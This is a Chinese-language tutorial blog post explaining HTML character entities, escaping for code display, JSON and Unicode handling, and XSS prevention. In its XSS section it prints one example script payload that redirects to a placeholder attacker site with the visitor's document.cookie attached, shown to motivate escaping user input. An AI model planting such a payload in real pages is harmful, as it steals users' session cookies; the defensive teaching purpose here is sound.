


当你在网页上看到引号、小于号或其他特殊符号时，你是否想过它们是如何正确显示的？这背后是一系列精心设计的转义机制。字符实体（Character Entities）是前端开发中不可或缺的知识点，却很少有人系统地了解它们。本文将带你全面认识这些"看不见的功臣"，让你在各种开发场景中游刃有余。

<!--more-->

## 什么是字符实体？

简单来说，字符实体就是在HTML和XML文档中表示特殊字符的一种方式。就像我们使用暗号一样（暗号），当我们需要在网页内容中显示某些有特殊含义的字符时，我们需要另一种表示方法。

例如，在HTML中，`<`和`>`用于定义标签的开始和结束。如果你想在文本中显示这些符号而不被浏览器误解为标签的一部分，就需要使用字符实体：`&lt;`表示`<`，`&gt;`表示`>`。

## 为什么我们需要字符实体？

想象一下，你是一位前端工程师，正在开发一个代码展示网站。你需要在页面上显示HTML代码示例：

```html
<div class="container">
  <p>Hello, world!</p>
</div>
```

如果直接将这段代码放入HTML文档，浏览器会将其解释为实际的HTML结构，而不是显示代码本身。这时，字符实体就派上用场了，你需要将其转换为：

```html
&lt;div class="container"&gt;
  &lt;p&gt;Hello, world!&lt;/p&gt;
&lt;/div&gt;
```

这样，浏览器就会正确地显示原始代码，而不是解释执行它。

## 字符实体的分类和语法

### 命名实体

命名实体是最常见和易于理解的字符实体形式，它们具有描述性的名称，格式为：`&实体名;`

以下是最常用的命名实体：

| 实体名 | 字符 | 描述 |
|--------|------|------|
| `&lt;` | < | 小于号 |
| `&gt;` | > | 大于号 |
| `&amp;` | & | 和号 |
| `&quot;` | " | 双引号 |
| `&apos;` | ' | 单引号(XML和HTML5) |
| `&nbsp;` | (空格) | 不换行空格 |
| `&copy;` | © | 版权符号 |
| `&reg;` | ® | 注册商标 |



### 数字实体

数字实体允许你使用字符的Unicode编码来表示字符，有两种格式：

1. **十进制格式**：`&#数字;`
   例如：`&#169;`表示版权符号©

2. **十六进制格式**：`&#x十六进制数;`
   例如：`&#xA9;`也表示版权符号©

需要注意的是，数字实体不是输出数字，而是根据输入的数字代码查找并显示对应的字符。

```mermaid
graph LR
    A["十进制: &#169;"] --> C["©"]
    B["十六进制: &#xA9;"] --> C
    
    style A fill:#f9f,stroke:#333,stroke-width:2px
    style B fill:#fbf,stroke:#333,stroke-width:2px
    style C fill:#bfb,stroke:#333,stroke-width:2px
```



## 实用场景与应用技巧

### 1. HTML代码展示

当你需要在网页上展示HTML代码时，有几种处理方法：

**方法一：手动转义**

将所有特殊字符替换为对应的字符实体：

```javascript
function escapeHTML(html) {
  return html
    .replace(/&/g, '&amp;')
    .replace(/</g, '&lt;')
    .replace(/>/g, '&gt;')
    .replace(/"/g, '&quot;')
    .replace(/'/g, '&#39;');
}
```

**方法二：使用`<pre>`和`<code>`标签**

这些标签会保留文本的格式，但仍需转义特殊字符：

```html
<pre><code>
&lt;div class="example"&gt;
  &lt;p&gt;这是一个例子&lt;/p&gt;
&lt;/div&gt;
</code></pre>
```

**方法三：使用现代工具库**

像Highlight.js、Prism.js这样的代码高亮库会自动处理转义问题。

### 2. 防止XSS攻击

跨站脚本攻击(XSS)是最常见的网络攻击之一。假设你的网站允许用户添加评论，如果不处理用户输入，攻击者可能插入恶意脚本：

```html
<script>document.location='http://攻击者网站?cookie='+document.cookie</script>
```

通过将用户输入中的特殊字符转换为字符实体，可以有效防止此类攻击：

```javascript
// 用户输入: <script>alert('XSS')</script>
// 转换后: &lt;script&gt;alert('XSS')&lt;/script&gt;
// 浏览器显示: <script>alert('XSS')</script>（而不执行脚本）
```

### 3. 处理数据传输中的特殊字符

在前后端数据交互过程中，特殊字符常常导致解析错误。例如，JSON数据中的特殊字符需要正确处理：

```javascript
// 不正确的JSON
{"message": "用户输入了"引号"和<标签>"}

// 正确的JSON（JavaScript自动转义）
{"message": "用户输入了\"引号\"和<标签>"}

// 在HTML中显示时还需要HTML转义
&lt;p&gt;用户输入了&quot;引号&quot;和&lt;标签&gt;&lt;/p&gt;
```

### 4. 国际化和特殊符号

当你的网站需要显示各种语言和特殊符号时，字符实体非常有用：

```html
<!-- 货币符号 -->
美元: &#36; ($)
欧元: &euro; (€)
英镑: &pound; (£)
日元: &yen; (¥)

<!-- 数学符号 -->
π值约等于3.14: &pi; ≈ 3.14
面积公式: S = &pi;r&sup2;
```

## 常见问题与解决方案

### 1. 多层转义问题

有时你可能会遇到多层转义的情况，例如：

```
&amp;lt; → &lt; → <
```

这通常发生在数据经过多个系统处理时。解决方法是理解数据流向，确保在正确的环节进行一次性转义。

### 2. 转义与解转义

有时你需要在服务器端转义后，在客户端解转义：

```javascript
// 服务器端转义
const escapedHTML = '<p>Hello</p>'.replace(/</g, '&lt;').replace(/>/g, '&gt;');
// 发送到客户端: &lt;p&gt;Hello&lt;/p&gt;

// 客户端解转义
function unescapeHTML(html) {
  const textarea = document.createElement('textarea');
  textarea.innerHTML = html;
  return textarea.value;
}

// 或使用DOMParser
const parser = new DOMParser();
const dom = parser.parseFromString('&lt;p&gt;Hello&lt;/p&gt;', 'text/html');
const text = dom.body.textContent; // 得到: <p>Hello</p>
```

### 3. 实体在不同环境中的支持情况

不是所有环境都支持字符实体：



## 高级应用与扩展知识

### Unicode字符和字符实体

Unicode为世界上几乎所有的字符都分配了唯一的编码。你可以使用数字实体来表示任何Unicode字符：

```html
<!-- 笑脸表情 -->
&#128512; 或 &#x1F600; → 😀

<!-- 复杂的数学符号 -->
&#8747; 或 &#x222B; → ∫ (积分符号)
```

### 条件注释与字符实体

在处理不同浏览器兼容性问题时，条件注释与字符实体结合使用：

```html
<!--[if IE]>
  &lt;link rel="stylesheet" href="ie-only.css"&gt;
<![endif]-->
```

### 动态生成内容中的字符实体处理

在使用JavaScript动态生成HTML内容时，需要特别注意字符实体的处理：

```javascript
// 不安全的方式
element.innerHTML = userInput; // 可能导致XSS攻击

// 安全的方式
element.textContent = userInput; // 自动转义
// 或
element.innerHTML = escapeHTML(userInput);
```

## 开发者工具与参考资源

### 实用工具

1. **在线字符实体转换器**：帮助你快速转换HTML文本
2. **浏览器开发者工具**：检查元素时查看实际的HTML内容
3. **编辑器插件**：如VSCode的HTML插件，可以自动高亮和转换字符实体

### 完整参考

想要查看完整的HTML字符实体列表，可以参考以下资源：

1. [HTML实体官方参考](https://html.spec.whatwg.org/multipage/named-characters.html)
2. [W3C的字符实体参考](https://www.w3.org/TR/html4/sgml/entities.html)

## 结语

字符实体是HTML和XML文档中必不可少的部分，掌握它们不仅能帮助你解决日常开发中的各种问题，还能增强网站的安全性和国际化能力。希望本文能够帮助你全面理解字符实体，并在实际开发中灵活应用。

你在开发过程中是否曾经因为特殊字符处理不当而遇到过问题？字符实体的正确使用是否解决了你的困扰？欢迎在实际项目中应用本文的知识，并思考如何更优雅地处理多层次转义问题。
